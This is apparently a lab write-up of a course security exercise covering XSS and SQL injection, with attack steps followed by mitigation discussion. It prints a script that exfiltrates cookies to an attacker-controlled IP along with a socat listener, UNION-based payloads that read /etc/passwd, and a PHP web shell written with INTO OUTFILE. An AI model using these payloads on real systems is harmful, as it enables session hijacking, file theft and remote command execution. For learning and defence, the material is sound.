# Report

## XSS

### Step

1. Vulnerability: 

   login no response no information added in post

   

   

    try comment: no encode for comment

   

   so we can attack this application on this page

2. Ipconfig find the server ip

   

3. Use script to get the the cookie from server (since admin regularly login every time) 

   key:document.cookie

   ```html
   <script>location.href=http:'//192.168.5.20:80/index.php?test='+document.cookie;</script>
   ```

4. Socat capture cookie leak

   `socat TCP-LISTEN:80,reuseaddr,fork -`

   

5. set the cookie

   Use browser's console to set cookie

   

6. login as an admin successfully 

   

### Discussion

#### Server-Side

1. Input Validation

   Reject or transform malicious input before it reaches application logic. Use an allowlist of allowed patterns (e.g. strictly defined usernames, email formats) to prevent injection attacks. 

   In this lab, the web form has no validation fields and attackers can inject `<script>` tags to trigger  XSS. To fix this, we can integrate a mature validation library in servercode and define precise regular expressions for each input field.

2. Output Sanitization

   Escape or remove unsafe characters in dynamic content, tailored to the output context (HTML, JavaScript, URL, etc.) Unsanitized names like `<script>alert(1)</script>` trigger reflected XSS.

   Adopt a templating engine that applies context‑aware escaping so that all interpolated variables are automatically sanitized for HTML contexts. For inline \<script\> contexts, wrap any dynamic data with a JavaScript string encoder, ensuring quotes and backslashes are escaped.

3. Domain Isolation 

   Serve all user‑uploaded or user‑generated content  from a completely separate domain or subdomain with no cookies shared. When an attacker uploads a file containing JavaScript that attempts to steal session cookies, the script cannot access the main application’s cookies if it’s on a separate domain.

   Set up a separate virtual host on the web server pointing user content to a static file directory. Because browsers enforce the same‑origin policy, scripts running on the user‑content domain cannot read cookies, local storage, or make privileged requests to main application.

#### Client-Side

1. HttpOnly Cookies

   Mark session and authentication cookies with the `HttpOnly` flag to prevent access via JavaScript. If a XSS vulnerability tries `alert(document.cookie)` with `HttpOnly`, `document.cookie` is empty.

   In application’s session‑management config , enable `cookie: { httpOnly: true }`.

2. CSP

   - Script‑domain allowlisting: Only permit scripts from the domain and trusted CDNs.
   - Capability restrictions: Disallow all inline scripts.
   - Trusted Types: Force all DOM‑sink operations to accept only objects created via approved factory functions, eliminating accidental injection.

   Configure a Content Security Policy header with a strict set of rules to  only load any type of resource from our own domain. 

   ```sql
   Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.lab.local; object-src 'none'; base-uri 'self'; require-trusted-types-for 'script'; 
   ```

3. Iframe Sandboxing

   Embed untrusted third‑party or user content inside `<iframe>` elements with a restrictive `sandbox` attribute. Displaying an external widget or user‑generated HTML.

   In the lab page templates, wrap the user or third‑party content URL inside an iframe and add flags like `sandbox="allow-same-origin"`.

## SQL Injection

### Step

1. Check edit pages

   

   We can see the parameter is `id=1` , assume backend query would look like:

   ```sql
   SELECT * FROM posts WHERE id = 1
   ```

2. Find vulnerability

   Adding a single quote (`'`) tests whether the input is sanitized or directly embedded into the SQL query. When append  (`'`)  at the end of the parameter value for id, a mysql error is displayed. 

   

   We can see that the absolute path is `/var/www`.

3. Fine the number of columns

   We append `UNION SELECT 1-- -` with increasing numbers of columns until the error stops.

   

   Finally the page loads without errors at `UNION SELECT 1,2,3,4` so the query has **4 **columns .

4. Payload

   Add  `UNION SELECT 1,2,user(),4-- -` and then we know that we are root.

   

5. Confirm file access

   `UNION SELECT 1,2,load_file("/etc/passwd"),4-- -`

   

6. Injecting a Webshell

   Since we have `/var/www` as an absolute path,  the user with `FILE` privilege can write here a PHP script which executes system commands via URL parameters.

   First try to write into /classes but fail

   ```sql
   UNION SELECT 1,"<?php system($_GET['c']); ?>",3,4 INTO OUTFILE '/var/www/classes/shell.php'-- -
   ```

   

   ```sql
   UNION SELECT 1,"<?php system($_GET['c']); ?>",3,4 INTO OUTFILE '/var/www/css/shell.php'-- -
   ```

   Check css folder then

   

   

### Discussion

#### Web application

- Insecure Query

  ```java
  String email = request.getParameter("email");
  String password = request.getParameter("password");
  String sql = "SELECT * FROM users WHERE email = '" 
               + email + "' AND password = '" 
               + password + "';";
  
  Statement stmt = connection.createStatement();
  ResultSet rs = stmt.executeQuery(sql);
  ```

  This concatenates user input directly into SQL, an attacker can supply `email = alice’ OR ’1’=’1` which transforms the WHERE clause into a tautology and returns every user row.

  We can change the sql into a fix format. The JDBC driver treats each `?` placeholder purely as a data slot, no matter what characters the user provides, they cannot change the SQL structure.

  ```java
  String sql = "SELECT * FROM users WHERE email = ? AND password = ?";
  ```

- Ensuring user input is treated as data in a query

  1. Input Validation by allow-list

     Define acceptable patterns , for example, email fields must match `/^[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}$/`.

  2. Use Parameterized API

     Rely exclusively on methods that accept parameter placeholders (e.g., `?` or named parameters) and then bind user inputs via dedicated setter functions.  Ensure that no user input can change the structure or intent of SQL statements.

#### Database system


#### Operating system

#### Security configuration
